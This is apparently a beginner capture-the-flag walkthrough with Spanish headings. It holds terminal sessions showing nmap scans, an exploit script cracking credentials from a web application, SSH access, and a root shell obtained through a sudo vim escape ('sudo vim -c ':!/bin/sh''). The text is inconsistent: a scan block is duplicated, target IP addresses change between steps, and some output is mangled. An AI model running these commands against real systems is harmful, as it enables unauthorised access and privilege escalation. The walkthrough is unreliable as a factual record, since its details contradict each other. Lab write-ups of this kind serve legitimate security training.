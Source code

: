 ## Objetivo
Beginner level ctf
## Solución 
root@ip-10-10-218-49:~# nmap 10.10.243.244

Starting Nmap 7.60 ( https://nmap.org ) at 2024-10-20 00:10 BST
Nmap scan report for ip-10-10-243-244.eu-west-1.compute.internal (10.10.243.244)
Host is up (0.00048s latency).
Not shown: 997 filtered ports
PORT     STATE SERVICE
21/tcp   open  ftp
80/tcp   open  http
2222/tcp open  EtherNetIP-1
MAC Address: 02:F0:BB:BC:F1:4D (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 15.80 seconds

root@ip-10-10-218-49:~# nmap -sC -sV 10.10.243.244

Starting Nmap 7.60 ( https://nmap.org ) at 2024-10-20 00:13 BST
Nmap scan report for ip-10-10-243-244.eu-west-1.compute.internal (10.10.243.244)
Host is up (0.00045s latency).
Not shown: 997 filtered ports
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.218.49
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 2 disallowed entries 
|_/ /openemr-5_0_1_3 
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 29:42:69:14:9e:ca:d9:17:98:8c:27:72:3a:cd:a9:23 (RSA)
|   256 9b:d1:65:07:51:08:00:61:98:de:95:ed:3a:e3:81:1c (ECDSA)
|_  256 12:65:1b:61:cf:4d:e5:75:fe:f4:e8:d4:6e:10:2a:f6 (EdDSA)
MAC Address: 02:F0:BB:BC:F1:4D (Unknown)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 53.05 seconds

root@ip-10-10-218-49:~# nmap -sC -sV 10.10.243.244

Starting Nmap 7.60 ( https://nmap.org ) at 2024-10-20 00:13 BST
Nmap scan report for ip-10-10-243-244.eu-west-1.compute.internal (10.10.243.244)
Host is up (0.00045s latency).
Not shown: 997 filtered ports
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.218.49
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 2 disallowed entries 
|_/ /openemr-5_0_1_3 
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 29:42:69:14:9e:ca:d9:17:98:8c:27:72:3a:cd:a9:23 (RSA)
|   256 9b:d1:65:07:51:08:00:61:98:de:95:ed:3a:e3:81:1c (ECDSA)
|_  256 12:65:1b:61:cf:4d:e5:75:fe:f4:e8:d4:6e:10:2a:f6 (EdDSA)
MAC Address: 02:F0:BB:BC:F1:4D (Unknown)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 53.05 seconds


root@ip-10-10-218-49:~# python3 4663.py -u http://10.10.243.244/simple/crack -w /usr/rockyou.txt
[+] Salt for password found: 1dac0d92e9fa6bb2 
[+] Username found mitch
[+] Email found: admin@admin.com
[*] Try: 0c01f4468bd75d7a84c7eb73846e8d96$ asks
[*] Now try to crack password

root@ip-10-10-218-49:~# ssh mitch@10.10.220.25 -p 2222
The authenticity of host '10.10.243.244 :2222 (10.10.243.244:2222)' can't be established. ECDSA key fingerprint is SHA256: Fce5J4GBLgx1+iaSMBjO+NFK0jZVL5LOVF5/jc0kwt8.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[110.10.243.244 :2222' (ECDSA) to the list of known hosts.
mitch@10.10.220.25's password:
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-58-generic i686)
$
$
$
$
$
$ whoami mitch
$ pwd /home/mitch $ ls
user.txt
$
$
$
$ cat user.txt
G00d j0b, keep up!
$
$
$
$ sudo -l
User mitch may run the following commands on Machine: (root) NOPASSWD: /usr/bin/vim
How many ser
$
$
$ sudo vim -c ':!/bin/sh'
#whoami
root
# pwd
/home/mitch
# 
# 
#
# cd /root/ # ls
root.txt
# cat root.txt
Wзll don3. You made it!
#
## Notas
